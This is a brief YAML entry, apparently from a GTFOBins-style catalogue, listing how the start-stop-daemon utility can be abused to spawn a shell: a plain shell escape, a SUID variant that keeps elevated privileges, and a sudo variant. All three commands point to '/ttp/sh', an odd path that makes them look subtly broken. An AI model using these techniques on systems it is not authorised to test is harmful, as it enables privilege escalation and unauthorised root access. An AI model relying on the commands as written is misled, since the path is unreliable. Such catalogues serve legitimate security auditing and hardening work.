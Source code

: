 ```yaml
---
functions:
  shell:
    - code: start-stop-daemon -n $RANDOM -S -x /ttp/sh
  suid:
    - code: ./start-stop-daemon -n $RANDOM -S -x /ttp/sh -- -p
  sudo:
    - code: sudo start-stop-daemon -n $RANDOM -S -x /ttp/sh
---
```

